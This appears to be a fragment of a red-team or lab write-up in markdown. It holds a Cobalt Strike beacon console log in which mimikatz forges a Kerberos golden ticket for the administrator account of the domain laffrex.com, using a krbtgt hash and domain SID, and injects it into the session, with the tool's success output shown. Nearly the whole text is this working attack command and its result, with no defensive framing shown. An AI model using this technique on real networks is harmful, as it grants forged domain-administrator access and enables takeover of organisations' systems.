 ```cmd
[11/15 14:41:47] beacon> mimikatz kerberos::golden /user:administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt
[11/15 14:41:47] [*] Tasked beacon to run mimikatz's kerberos::golden /user:administrator /domain:laffrex.com /sid:S-1-5-21-1027567978-1567870151-2422577431 /krbtgt:b036bd80f7d70fc72b920c1eeb8acc55 /endin:480 /renewmax:10080 /ptt command
[11/15 14:41:47] [+] host called home, sent: 297586 bytes
[11/15 14:41:49] [+] received output:
User      : administrator
Domain    : laffrex.com (LAFFREX)
SID       : S-1-5-21-1027567978-1567870151-2422577431
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: b036bd80f7d70fc72b920c1eeb8acc55 - rc4_hmac_nt      
Lifetime  : 2024/11/15 14:41:48 ; 2024/11/15 22:41:48 ; 2024/11/22 14:41:48
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'administrator @ laffrex.com' successfully submitted for current session
```

<img src="./assets/image-20241115145145163.png" alt="image-20241115145145163" style="zoom:50%;" />
